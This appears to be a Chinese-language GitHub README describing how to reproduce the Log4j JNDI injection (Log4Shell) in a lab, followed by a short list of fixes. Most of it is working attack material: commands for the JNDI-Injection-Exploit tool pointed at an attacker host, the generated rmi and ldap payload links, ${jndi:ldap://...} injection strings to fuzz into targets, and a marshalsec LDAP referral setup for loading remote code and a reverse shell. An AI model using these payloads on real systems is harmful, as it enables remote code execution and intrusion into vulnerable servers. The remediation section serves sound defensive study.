


# 以下都是内网学习打的，仅供学习

## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.10
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.10:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/kavkt9
ldap://10.10.10.10:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/m5m8wo
ldap://10.10.10.10:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.10:1389/m5m8wo} `


## 2、反弹shell

```
git clone https://github.com/daty2141/Apache-Log4j-Learning.git
cd Apache-Log4j-Learning/src
javac Log4jRCE.java 
python -m http.server --bind 127.0.0.1 8888 
```

```
cd tools
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```


最后运行 Hack.java


效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://127.0.0.1:8888/Log4jRCE.class`


httpserver上未看到请求记录。




## 3.修复方案
1）将Log4j框架升级到最新版本

2）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

3）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

4）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；
# 以上都是内网学习打的，仅供学习